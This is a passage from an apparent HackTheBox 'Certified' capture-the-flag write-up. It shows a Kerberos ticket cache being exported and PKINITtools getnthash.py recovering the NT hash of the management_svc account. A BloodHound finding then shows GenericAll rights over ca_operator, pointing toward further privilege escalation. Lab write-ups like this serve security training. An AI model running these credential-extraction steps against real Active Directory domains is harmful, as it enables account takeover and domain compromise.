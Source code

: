 ```bash
┌──(.venv)─(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ export KRB5CCNAME=target.ccache 
```

```bash
┌──(.venv)─(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ python3 /opt/PKINITtools/getnthash.py -key 31b6807ee1f84d89eb97b499d7d04fc9ee5d5ce18102b064f3816b994cdb3206 certified.htb/management_svc

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
```
![Evil-WinRM](Evil-WinRM.png)

The `First Degree Object Conctrol` under the Node Info of `management_svc` showed us that we have `GenericAll` on the `ca_operator`  object.

![Bloodhound2](Bloodhound2.png)
